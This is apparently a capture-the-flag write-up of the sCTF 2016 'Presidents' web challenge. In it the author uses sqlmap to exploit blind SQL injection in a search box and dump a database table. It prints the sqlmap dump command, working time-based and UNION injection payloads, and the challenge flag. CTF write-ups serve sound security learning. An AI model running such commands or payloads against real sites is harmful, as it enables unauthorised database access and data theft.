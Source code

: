 ### Solved by z0rex

Presidents was a web challenge worth 40 points.

> I just created a site with a list of popular presidential candidates!

We're greated with a list of candidates and a search box

![Screenshot 01](/hackpwn/writeups/wiki/images/CTF/2016/sCTF/presidents/01.png)

Messing with the search field reveals that it's vulnerable to blind SQL injection.

![Screenshot 02](/hackpwn/writeups/wiki/images/CTF/2016/sCTF/presidents/02.png)

![Screenshot 03](/hackpwn/writeups/wiki/images/CTF/2016/sCTF/presidents/03.png)

So, because I'm a lazy person, and really hate blind injections I turned to SQLmap.

After getting the databases and the one table I dumped the content of `candidates`

```
# sqlmap -u "http://president.sctf.michaelz.xyz/" --data="search=*" --dbms=mysql -D sctf_injection -T candidates --dump-all
         _
 ___ ___| |_____ ___ ___  {1.0.4.0#dev}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 18:48:30

custom injection marking character ('*') found in option '--data'. Do you want to process it? [Y/n/q] 
[18:48:30] [INFO] testing connection to the target URL
[18:48:31] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: search=') AND (SELECT * FROM (SELECT(SLEEP(5)))Coki) AND ('tGUl'='tGUl

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: search=') UNION ALL SELECT NULL,NULL,CONCAT(0x71626b7671,0x596d715659574d714d6f6f635a45787879714979666a4c584f4a7454464a574c41737963557a5479,0x716a7a6a71),NULL,NULL,NULL,NULL-- -
---
[18:48:31] [INFO] testing MySQL
[18:48:31] [INFO] confirming MySQL
[18:48:31] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.0.0
[18:48:31] [INFO] sqlmap will dump entries of all tables from all databases now
[18:48:31] [INFO] fetching tables for database: 'sctf_injection'
[18:48:31] [INFO] fetching columns for table 'candidates' in database 'sctf_injection'
[18:48:31] [INFO] fetching entries for table 'candidates' in database 'sctf_injection'
[18:48:31] [INFO] analyzing table dump for possible password hashes
Database: sctf_injection
Table: candidates
[6 entries]
+----+------+----------------------------------------------------------------------+------------+---------+------------------------------------------------+---------+
| id | hide | pic                                                                  | party      | last    | comment                                        | first   |
+----+------+----------------------------------------------------------------------+------------+---------+------------------------------------------------+---------+
| 1  | 0    | http://www.politics1.com/pix2/clinton-2016.jpg                       | Democratic | Clinton | <blank>                                        | Hillary |
| 2  | 0    | http://www.politics1.com/pix2/berniesanders.jpg                      | Democratic | Sanders | <blank>                                        | Bernie  |
| 3  | 0    | http://www.politics1.com/pix2/TedCruz.jpg                            | Republican | Cruz    | <blank>                                        | Ted     |
| 4  | 0    | http://www.politics1.com/pix2/Kasich16.jpg                           | Republican | Kasich  | <blank>                                        | John    |
| 5  | 0    | http://www.politics1.com/pix2/trump.jpg                              | Republican | Trump   | <blank>                                        | Donald  |
| 6  | 1    | https://rosettastoneweb.files.wordpress.com/2015/11/vforvendetta.jpg | Anonymous  | Hacker  | sctf{why_do_people_still_make_sites_like_this} | The     |
+----+------+----------------------------------------------------------------------+------------+---------+------------------------------------------------+---------+
```

Here we can also see that SQLmap reports that it's vulnerable to union injection 
with a closing parentecy. Should probably have caught that, but it's still a win.

Now, if we look in the comment column we can see the flag on row 6.

Flag: `sctf{why_do_people_still_make_sites_like_this}`